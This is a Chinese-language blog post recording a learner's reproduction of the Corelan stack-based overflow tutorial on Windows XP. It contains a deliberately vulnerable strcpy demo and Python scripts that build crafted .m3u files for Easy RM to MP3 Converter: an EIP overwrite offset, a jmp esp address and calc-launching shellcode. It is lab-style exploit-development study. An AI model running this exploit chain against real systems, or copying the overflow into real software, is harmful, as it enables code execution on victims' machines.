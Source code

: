 # Pwn 学习：Stack Based Overflows 实战

自己第一次学汇编是一年多以前了，逆向也搞过不少，但是 pwn 一直没尝试过。越狱 iPhone 时看了看那些漏洞的 POC 第一眼就觉得好高深啊，这起码得学完操作系统以后再说了。然而逆 iOS App 的时候学 arm 汇编看的[这篇文章](https://azeria-labs.com/writing-arm-assembly-part-1/)写了这段话：

> Just think about the great tutorials on Intel x86 Exploit writing by [Fuzzy Security](https://www.fuzzysecurity.com/tutorials/expDev/1.html) or the [Corelan Team](https://www.corelan.be/index.php/2009/07/19/exploit-writing-tutorial-part-1-stack-based-overflows/) – Guidelines like these help people interested in this specific area to get practical knowledge and the inspiration to learn beyond what is covered in those tutorials.

Well... Why not try it out? 于是就开始看。Fuzzy 的看上去有点晦涩，所以就跟着 Corelan 的走了。难易程度可以说还挺适合我。感觉 prerequisite 基本上就是学过 C 以及了解过汇编（反正遇到不会的查就得了），会某种脚本语言的话就更方便。

下面基本上记录一下我自己的复现过程。

首先准备环境。我的环境：

- `en_windows_xp_professional_with_service_pack_3_x86_cd_vl_x14-73974` 在 VMware 虚拟机里跑的。
- `ImmunityDebugger_1_85_setup` [Immunity Debugger](https://www.immunityinc.com/products/debugger/)
- `707414955696c57b71c7f160c720bed5-EasyRMtoMP3Converter` [exploit-db](https://www.exploit-db.com/exploits/10619) 下载
- `mona.py` [右键另存为下载](https://github.com/corelan/mona/raw/master/mona.py)
- `devcpp-4.9.9.2_setup` [SourceForge 下载](https://sourceforge.net/projects/dev-cpp/files/Binaries/Dev-C%2B%2B%204.9.9.2/devcpp-4.9.9.2_setup.exe/download)（惊叹，这玩意真小啊）

第一步是简单验证一下漏洞，原文用 perl 写文件，因为装 Immunity Debugger 时自动装了 Python 2.7.1 所以我就直接写 Python 了。

```python
f = open('crash.m3u', 'w')
f.write('A'*30000)
f.close()
```

装好 `EasyRMtoMP3Converter` 后导入发现直接崩溃。

然后第二步是写个小 demo 演示漏洞原理，代码

```c++
void vulnerable_func(char *buffer) {
     char canoverflow[128];
     strcpy(canoverflow, buffer);
}

int main(int argc, char **argv) {
     vulnerable_func(argv[1]);
}
```

编译完成后打开 Immunity Debugger 然后打开 exe 并且 arguments 随便填个 `AAAAAA`。进去以后单步调试观察函数调用和 strcpy 的作用。

这里有个小知识盲区，`MOV DWORD PTR SS:[ESP],EAX` 这个 `SS` 是啥意思？有的地方写的是 `DS`。于是搜了一通：[What does "DS:40207A" mean in assembly?](https://stackoverflow.com/questions/3819699/what-does-ds40207a-mean-in-assembly) 然后又找了一下 [What does `dword ptr` mean?](https://stackoverflow.com/questions/2987876/what-does-dword-ptr-mean)

第三步是把 debugger 挂到要研究的程序上观察崩溃原因。直接打开程序然后 attach 即可。

后面要找 offset 我比较直接地在栈内存那个窗口找的字符串起点……然后减一下得到 offset. 但是很奇怪的是算的不是很准而且比正确的大 10000 左右。我找的是 `0xFF730 - 0xF6E55 = 35035`. 后面二分找了一下最后结果是 26059.

```python
f = open('crash.m3u', 'w')
f.write('A'*26059+'B'*4+'XXXX'+'1ABCDEFGHIJKLMNOPQRSTUVWXYZ')
f.close()
```

后面跟着文章做了一次不成功的尝试，但是当时我其实 eip 覆盖的都是错的，因为没有写成小端……

```python
f = open('crash.m3u', 'w')
f.write('A'*26059+'\x30\xf7\x0f\x00'+'\x90'*25+'\xcc'+'\x90'*25)
f.close()
```

第四步是从加载的 DLL 里找 `jmp esp` 这个指令，绕过 `\x00` 导致字符串中间有 terminator 的问题。我用的是 [mona.py](https://www.corelan.be/index.php/2011/07/14/mona-py-the-manual/)（继承了 pvefindaddr）简单看了一下文档，下载放入 PyCommands 然后 DLL 加载完成后在 Immunity Debugger 底部文本框输入

```
!mona find -type bin -s ffe4
```

查找出的结果在 `C:\Program Files\Immunity Inc\Immunity Debugger\find.txt`. 打开后搜索 `MSRMCcodec02.dll` 发现这行

```
0x01acb22a (b+0x0022b22a)  : ffe4 |  {PAGE_READWRITE} [MSRMCcodec02.dll] ASLR: False, Rebase: True, SafeSEH: False, OS: False, v-1.0- (C:\Program Files\Easy RM to MP3 Converter\MSRMCcodec02.dll)
```

最后用了文中构造好的 shellcode 成功打开计算器

```python
f = open('crash.m3u', 'w')
shellcode = "\xdb\xc0\x31\xc9\xbf\x7c\x16\x70\xcc\xd9\x74\x24\xf4\xb1" + \
"\x1e\x58\x31\x78\x18\x83\xe8\xfc\x03\x78\x68\xf4\x85\x30" + \
"\x78\xbc\x65\xc9\x78\xb6\x23\xf5\xf3\xb4\xae\x7d\x02\xaa" + \
"\x3a\x32\x1c\xbf\x62\xed\x1d\x54\xd5\x66\x29\x21\xe7\x96" + \
"\x60\xf5\x71\xca\x06\x35\xf5\x14\xc7\x7c\xfb\x1b\x05\x6b" + \
"\xf0\x27\xdd\x48\xfd\x22\x38\x1b\xa2\xe8\xc3\xf7\x3b\x7a" + \
"\xcf\x4c\x4f\x23\xd3\x53\xa4\x57\xf7\xd8\x3b\x83\x8e\x83" + \
"\x1f\x57\x53\x64\x51\xa1\x33\xcd\xf5\xc6\xf5\xc1\x7e\x98" + \
"\xf5\xaa\xf1\x05\xa8\x26\x99\x3d\x3b\xc0\xd9\xfe\x51\x61" + \
"\xb6\x0e\x2f\x85\x19\x87\xb7\x78\x2f\x59\x90\x7b\xd7\x05" + \
"\x7f\xe8\x7b\xca"
f.write('A'*26059+'\x2a\xb2\xac\x01'+'\x90'*25+shellcode+'\x90'*25)
f.close()
```

后面发现不挂载 Immunity Debugger 时打开不起作用，重启然后又试了几次就好了。

最后放张成果图。

![Windows XP Professional x86-2023-01-13-01-08-36.png](https://s2.loli.net/2023/01/13/cUPWw346ReZdyI7.png)
